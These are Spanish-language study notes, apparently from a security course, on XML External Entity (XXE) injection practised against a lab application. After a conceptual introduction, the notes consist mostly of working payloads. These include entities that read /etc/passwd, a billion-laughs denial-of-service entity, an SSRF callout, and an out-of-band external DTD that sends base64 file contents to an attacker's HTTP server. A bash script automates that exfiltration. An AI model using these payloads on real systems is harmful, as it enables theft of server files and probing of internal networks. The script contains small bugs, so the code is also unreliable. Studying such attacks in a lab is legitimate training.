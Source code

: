 # # XML External Entity Injection (XXE)

Tags: #XXE #OWASP #Explotacion 

Cuando hablamos de **XML External Entity** (**XXE**) **Injection**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “**ir a ciegas**” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un **Document Type Definition** (**DTD**) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo **SSRF** (**Server-Side Request Forgery**). Esta técnica de ataque puede permitir a un atacante escanear **puertos internos** en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener **información sensible** o incluso **tomar el control** de los servicios internos.

A continuación, se proporciona el enlace al proyecto de GitHub correspondiente al laboratorio que estaremos desplegando en esta clase para practicar esta vulnerabilidad:

-   **XXELab**: [https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab)

## XML en la web

* Usaremos XML como código para hacer los scripts. 
* El campo en donde debemos de fijarnos es aquel que el **Input** es el que nos representa en la web como **Output**

En el archivo XML debemos de colocar un DOCTYPE y ese es el que estaremos modificando
```xml
<?xml version="1.0" encoding="UTF-8"?>           <!-- Declaracion de XML--> 
	<!DOCTYPE foo [<!ENTITY myName "omar">]>    <!-- DTD y colocamos lo que queremos que salga en el output de la web -->
	<root>
		<name>
			<email>
				&myName;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>       <!-- Colocamos la ruta abosluta del archivo -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>    <!-- Representara el output en una sola linea en base64 -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml 
<!-- Un millon de risas, ataque de Buffer Overflow-->

<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
  <!ELEMENT example ANY >
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
  ]>
<example>
  &lol9;
</example>
```

```xml 
<!-- XXE -- SSRF -->

<!DOCTYPE xxe [ 
  <!ENTITY juju SYSTEM "http://9lvskwimvjek0wq5s8up8ja0grmia8yx.oastify.com?nombre=omar"> 
]>
```

## XXE OOB (Out Of Band) Blind 'External DTD'

```xml
<!-- Esto se hace cuando no podemos declara entidades, en esta ocasion lo llamaremos desde le propio DTD -->

<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://IP/malicious.dtd"> %xxe;]>      
	<!-- Hara una peticion GET a nuestro servidor buscando el archivo malicious.dtd -->
	<root>
		<name>
			<email>
				test@test.com
			</email>
		</name>
	</root>

	<!-- IP = Direccion IP del atacante -->
```

```bash 
# Creamos el archivo DTD externo, en donde haremos que el '/etc/passwd' de la maquina victima nos lo regrese en base64 en una peticion por GET.

❯ nvim malicious.dtd

<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://IP/?file=%file;'>">
%eval;
%exfil;

	# Cuando tenemos dos 'ENTITY' seguidas, debemos de colocar el '%' en hexadecimal = &#x25; 
	# IP = Direccion IP del atacante 
```

```bash 
❯ python3 -m http.server 80     # Creamos un servidor http por el puerto 80 para compartir el archivo 'malicious.dtd'
```

### Automatizar el proceso 

```bash
❯ nvim xxe_oob.sh                        # Creamos el archivo para automatizar el resultado final 

#!/bin/bash

echo -ne "[+] Introdiuce el archivo a leer: " && read -r myFilename   # n = Introducir el input en la misma linea, e = Salto de linea al principio

maliciuos_dtd="""
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$myFilename\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://IP/?file=%file;'>\">                  
%eval;                                                                                                    
%exfil; """          # IP = Maquina de atacante 

echo $malicious_dtd > malicious.dtd

python3 -m http.server 80 &>response &

PID=$!

sleep 1; echo

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<! ENTITY % xxe SYSTEM "http://IP/malicious.dtd"> %xxe;]>      
<root><name>test</name><tel>12345</tel><email>test@test.com</email><password>omar123</password></root>' &>/dev/null

cat response | grep -oP "/?file=\K[^.*\s]+" | base64 -d

kill -9 $PID 
wait $PID 2>/dev/null

rm response 2>/dev/null
```